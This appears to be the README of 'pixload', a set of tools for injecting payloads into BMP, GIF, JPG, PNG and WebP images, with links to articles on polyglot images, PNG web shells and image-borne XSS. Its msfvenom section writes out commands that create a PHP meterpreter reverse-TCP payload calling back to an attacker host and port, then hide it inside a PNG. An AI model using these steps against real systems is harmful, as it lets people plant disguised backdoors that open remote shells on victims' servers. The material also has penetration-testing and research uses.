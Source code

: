 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for ~~hiding backdoors~~ creating/injecting payload into images.

The following image types are currently supported: BMP, GIF, JPG, PNG, WebP.

#### about

Useful references for better understanding of `pixload` and its use-cases:

- [Bypassing CSP using polyglot JPEGs](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)

- [Hacking group using Polyglot images to hide malvertising attacks](https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)

- [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

- [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

- [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

If you want to encode a payload in such a way that the resulting binary blob is
both valid x86 shellcode and a valid image file, I recommend you to look
[here](https://warroom.securestate.com/bmp-x86-polyglot/) and
[here](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/bmp_polyglot.rb).

#### msfvenom

If you want to inject a metasploit payload, you have to do something like this:

1. Create metasploit payload (i.e. php).
```sh
$ msfvenom -p php/meterpreter_reverse_tcp \
	LHOST=192.168.0.1 LPORT=31337 -f raw > payload.php
```

2. Edit `payload.php` if needed.

3. Inject `payload.php` into the image (i.e. png).
```sh
./pixload-png -payload "$(cat payload.php)" -output payload.png
```

## SETUP

The following Perl modules are required:

  * GD
